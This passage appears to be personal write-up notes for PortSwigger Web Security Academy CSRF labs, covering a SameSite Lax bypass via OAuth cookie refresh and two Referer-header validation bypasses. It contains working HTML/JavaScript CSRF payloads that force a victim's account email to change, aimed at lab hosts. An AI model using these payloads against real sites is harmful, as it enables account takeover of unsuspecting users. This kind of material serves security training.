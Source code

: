### SameSite Lax bypass via cookie refresh

Log in, and study the change email functionality and see it doesn't contain any token.

Also notice the response to the GET /oauth-callback?code= doesn't explicitly specify any SameSite restrictions. The browser will default it with `Lax`

If you visit the /social-login initiates the OAuth flow

Final payload:
```html
`<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="pwned@portswigger.net"> </form> <p>Click anywhere on the page</p> <script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>`
```

---
### CSRF where Referer validation depends on header being present

You can update your email, and remove entirely the "referrer" header. So, right click > create CSRF PoC , and add the line `<meta name='referrer' content='no-referrer'>`

Change the email so it doesn't match your own. Store, and send to victim.

---
### CSRF with broken Referer validation

It's not properly validating the Referer header, so you can craft this exploit:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a2f006104f7d01680a45d8900e4003e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="lala&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a2f006104f7d01680a45d8900e4003e.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And add the header: 
`Referrer-Policy: unsafe-url`

Wait a few seconds... 

---
